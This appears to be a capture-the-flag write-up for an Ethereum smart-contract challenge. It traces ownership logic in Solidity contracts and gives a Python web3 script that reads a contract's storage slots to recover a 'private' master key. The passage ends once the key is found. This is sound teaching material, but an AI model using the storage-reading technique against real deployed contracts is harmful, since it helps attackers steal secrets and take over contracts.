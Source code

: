 # Inju's Gambit

> Inju owns all the things in the area, waiting for one worthy challenger to emerge.
>  Rumor said, that there many ways from many different angle to tackle Inju.
>  Are you the Challenger worthy to oppose him?

Attached files: [Setup.sol](./source/Setup.sol), [ChallengeManager.sol](./source/ChallengeManager.sol), [Privileged.sol](./source/Privileged.sol)

## Challenge Outline
As usual, the goal of the challenge is to make the isSolved function in the setup contract return true.
```solidity
function isSolved() public view returns(bool){
    return address(privileged.challengeManager()) == address(0);
}
```
It seems like our goal is to set the address of the challengeManager address in the privileged contract to the null address. I started working backwards and looked through Privileged.sol for a function that would be able to do that. Luckily for us, the fireManager function seems to do just that.
```solidity
function fireManager() public onlyOwner{
    challengeManager = address(0);
}
```
However, in order to call fireManager, we first need to become the owner of the privileged contract. The current owner of the privileged contract is the contract that deployed it: the challenge manager contract. I looked through the challenge manager contract for a function that would allow us to either call the fireManager function or to beome the owner of the contract ourselves.
```solidity
    function challengeCurrentOwner(bytes32 _key) public onlyChosenChallenger{
        if(keccak256(abi.encodePacked(_key)) == keccak256(abi.encodePacked(masterKey))){
            privileged.setNewCasinoOwner(address(theChallenger));
        }
    }
```
The challengeCurrentOwner seems to do that. In order to become the new owner, there are to conditions we have to meet: being the chosen challenger and having the master key. The `bytes32 private masterKey` shows us that the masterKey is a private variable. A private variable just means that it can't be accessed externally, but it is still public on the blockchain, which means that all we have to do is read it from there. In the Ethereum, a contract's state variables are stored in storage slots, which can each hold up to 32 bytes. By reading these slots, we can find the value of the master key.
```python
from web3 import Web3

rpc_url = "http://45.32.119.201:44445/f03fa921-b78f-4d64-87b1-e25a5af93fd1"  # rpc endpoint
w3 = Web3(Web3.HTTPProvider(rpc_url))
if not w3.is_connected():
    print("Couldn't connect")
    exit(1)

def read_slot(address, slot):
    value = w3.eth.get_storage_at(address, slot)
    return value

contract_addr = "0x4635c4064F565f0a5ca43D4893a2a6977F2B2655"  # the address of the challengeManager contract
for x in range(10):
    key = read_slot(contract_addr, x)
    print(x, key, key.hex())
```
You can determine which slot a certain variable is stored in based on the order they are declared, but I was lazy and decided to just print them all out :P.
Based on the output, I think it is safe to assume that INJUINJUINJUSUPERKEYKEYKEYKEYKEY is our master key: `1 b'INJUINJUINJUSUPERKEYKEYKEYKEYKEY' 494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559`.

